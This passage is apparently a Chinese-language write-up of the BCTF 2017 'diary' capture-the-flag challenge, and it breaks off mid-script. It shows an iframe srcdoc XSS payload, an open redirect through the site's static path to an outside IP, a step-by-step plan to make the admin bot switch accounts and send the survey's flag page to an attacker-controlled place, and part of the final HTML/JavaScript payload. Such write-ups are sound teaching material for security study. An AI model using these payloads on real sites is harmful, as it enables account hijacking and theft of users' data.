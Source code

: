 ![image_1bdtes5dj14jg1atr5tf1chg8hb3h.png-31.2kB][9]

细心一点儿可以发现，iframe标签其实没被过滤，而通过srcdoc属性，可以产生一个同源下的子窗口，子窗口下可以随便构造js

payload
```
<iframe srcdoc="<script>alert(1);</script>">

</iframe>
```
成功了，然后我们接着看站

## 目标 ##

survey是一个表单，我们随便提交点儿什么，会得到

```
Thank you. But the boss said only admin can get the flag after he finishes this survey, XD
```

看来这就是我们的目标了，这里需要注意了，survey这次提交是带有csrftoken的，也就是不存在csrf漏洞。

## 管理员审核 ##

然后是report bug功能，如果我们随便提交个url，会返回
```
We only care about the problem from this website (http://diary.bctf.xctf.org.cn)!
```

但是纵观整个站，我们不难发现，整站是由django写的，稍微测试下可以发现存在静态文件任意跳转漏洞

```
http://diary.bctf.xctf.org.cn/static/%5C%5C119.29.192.14/bctf2017/xss/xss.html

这样就会调到目标站了
```

## 整理攻击思路 ##

自己研究原文结合前面发现的一些漏洞，我们不难整理出整个攻击思路。

1、提交带有payload的外域链接，通过任意跳转绕过判断，让admin访问。
2、admin访问后退出diary域的登陆，但保留了auth域的session。
3、bot用我们事先准备好的token（这步可以动态）登陆，访问我们事先构造好的diary页面。
4、diary页面是事先用iframe插入的js，当bot访问的时候，先打开一个新的iframe子窗口退出当前账号，然后访问login登陆回bot账号。
5、等待上步完成后，新打开一个iframe子窗口，访问survey，向建议框内写入数据，点击submit。
6、等待上步完成后，获取子窗口内容，跳转至接受flag的地方

思路理明白了，就剩下写payload了。

## 最终payload ##

首先是xss1.html，也就是上面的前三步


```
<meta http-equiv="Content-Security-Policy" content="img-src http://diary.bctf.xctf.org.cn">

<img src="http://diary.bctf.xctf.org.cn/accounts/logout/" onerror="login();">


<script>

    var login = function() {
        var loginImg = document.createElement('img');
        loginImg.src = 'http://diary.bctf.xctf.org.cn/accounts/login/';
        loginImg.onerror = redir;
    }
```

  [1]: http://static.zybuluo.com/LoRexxar/kkihjpctpr078cyrzrgip1ww/image_1bdt8qkc81s8ni7h17b7j21ck19.png
  [2]: http://static.zybuluo.com/LoRexxar/k3o5raq7ozrnazfd5sfeojua/image_1bdt8uheq1gjhk37fht1nf81hd2m.png
  [3]: http://static.zybuluo.com/LoRexxar/f6023kwkx4nvjivhad1bso6b/image_1bdtb3dlk36js2i1605osn1hsq13.png
  [4]: http://static.zybuluo.com/LoRexxar/gfgzgx51t10slbclxuhzcr7f/image_1bdtbdbq012ntmdqss1ep03s21g.png
  [5]: http://static.zybuluo.com/LoRexxar/jqq0ihh2mjb0phbd6auxw3hx/image_1bdtbp175hhc1nnjeg4lde1i8q1t.png
  [6]: http://static.zybuluo.com/LoRexxar/grrwwcnvdx6f6ue1v4ae5p1g/image_1bdtccqam15qf1hai1st21f661v2k2a.png
  [7]: http://static.zybuluo.com/LoRexxar/9iw4qblc7cw108tuarkkgjuh/image_1bdte4eg9k9s13urld1g8t1jmt2n.png
  [8]: http://static.zybuluo.com/LoRexxar/jz8831kzjijmhk4ewprxdtt6/image_1bdter1ojars1t0gfcf11ss1vl634.png
  [9]: http://static.zybuluo.com/LoRexxar/sn7gt5nm8dwx4h18p9binz9b/image_1bdtes5dj14jg1atr5tf1chg8hb3h.png
  [10]: http://static.zybuluo.com/LoRexxar/t0q0gcv10aov10jmy0s2f1xi/image_1bdtg2l1d198b1jph13fmffqg5g3u.png
  [11]: http://static.zybuluo.com/LoRexxar/monq5zoc8w02jgztjnndvgwt/image_1bdtg5fqebnmier3bkmcc1heb4b.png
